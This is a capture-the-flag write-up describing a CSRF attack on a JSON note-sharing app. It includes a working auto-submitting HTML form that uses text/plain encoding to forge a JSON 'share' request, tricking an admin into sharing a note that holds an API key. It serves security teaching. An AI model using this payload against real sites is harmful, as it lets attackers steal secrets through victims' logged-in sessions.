


This challenge was about exploiting a Cross-Site Request Forgery (CSRF) vulnerability in an application that relies on JSON requests. The goal was simple: steal a sensitive key by tricking an admin into performing an action they never intended.

At first glance, the app looked "safe enough." It used JSON everywhere, which is something people often assume magically prevents CSRF. This challenge showed why that assumption is wrong.

## Reconnaissance

I started by creating a normal user account and just clicking around. No rush, no Burp spam,  just trying to understand how the app worked.

Pretty quickly, I noticed a **note-sharing feature**. I could create a note and explicitly share it with another user. That immediately stood out.

My thinking was straightforward:  
If an admin can share notes, and if one of those notes contains something sensitive (like an API key), then forcing the admin to share it with me would solve the challenge.

The key question became: _can I trigger that "share" action via CSRF?_

## Exploitation

The application used a JSON-based POST request to handle the share action. There was no CSRF token, and more importantly, the server didn't strictly validate the `Content-Type`.

That's where the weakness was.

Instead of sending real JSON, I abused an old trick: submitting a form with `enctype="text/plain"` and crafting the input name so it _looks_ like JSON once the server parses it.

I built a small HTML page like this:

```html
<!DOCTYPE html>
<html>
  <body>
    <form id="csrfForm" action="https://redacted/share" method="POST" enctype="text/plain">
      <input type="hidden" name='{"user":"attacker","id":0,"garbage":"' value='"}'>
    </form>

    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>
```

Then I hosted this page on my own server and sent the link to the admin.

Once the admin visited the page, their browser automatically submitted the request **with their session cookies**. From the application's point of view, the admin had voluntarily shared the note with me.



A few seconds later, I refreshed my notes  and there it was. The API key, now shared directly with my user.


